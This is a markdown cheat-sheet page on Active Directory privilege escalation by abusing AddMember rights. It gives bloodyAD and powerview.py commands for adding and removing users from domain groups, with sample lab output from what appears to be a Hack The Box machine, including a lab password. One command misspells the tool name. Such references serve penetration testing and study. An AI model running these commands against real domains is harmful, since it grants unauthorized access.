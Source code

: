 ```yaml
---
title: "AddMember"
date: 2025-7-25
tags: ["Powerview", "AddMember", "Domain Controller", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add User to Group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add User to Group

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
# Password
sudo ntpdate -s <DC_IP> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

```console
# Kerberos
sudo ntpdate -s <DC_IP> && sowerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k --no-pass
```

#### 2. Add User to Group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<TARGET_USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

---[SNIP]---

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}

---

### Privesc #2: Remove User from Group (From Linux)

{{< tab set2 tab1 >}}bloodyAD{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> --dc-ip <DC_IP> remove groupMember '<GROUP>' '<TARGET_USER>'
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> --dc-ip <DC_IP> remove groupMember '<GROUP>' '<TARGET_USER>'
```

{{< /tabcontent >}}
